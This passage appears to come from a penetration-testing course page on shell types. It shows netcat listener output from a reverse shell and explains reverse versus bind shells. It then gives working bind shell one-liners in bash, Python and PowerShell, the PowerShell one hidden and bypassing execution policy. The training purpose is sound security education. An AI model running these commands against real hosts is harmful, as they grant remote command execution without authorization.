 Types of Shells

```shell
6165@htb[/htb]$ nc -lvnp 1234 listening on [any] 1234 ... connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572 id uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, after we received a connection on our `netcat` listener, we were able to type our command and directly get its output back, right in our machine.

A `Reverse Shell` is handy when we want to get a quick, reliable connection to our compromised host. However, a `Reverse Shell` can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.

___

## Bind Shell

Another type of shell is a `Bind Shell`. Unlike a `Reverse Shell` that connects to us, we will have to connect to it on the `targets'` listening port.

Once we execute a `Bind Shell Command`, it will start listening on a port on the remote host and bind that host's shell, i.e., `Bash` or `PowerShell`, to that port. We have to connect to that port with `netcat`, and we will get control through a shell on that system.

___

#### Bind Shell Command

Once again, we can utilize [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) to find a proper command to start our bind shell.

Note: we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.

The following are reliable commands we can use to start a bind shell:

Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Code: python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Code: powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

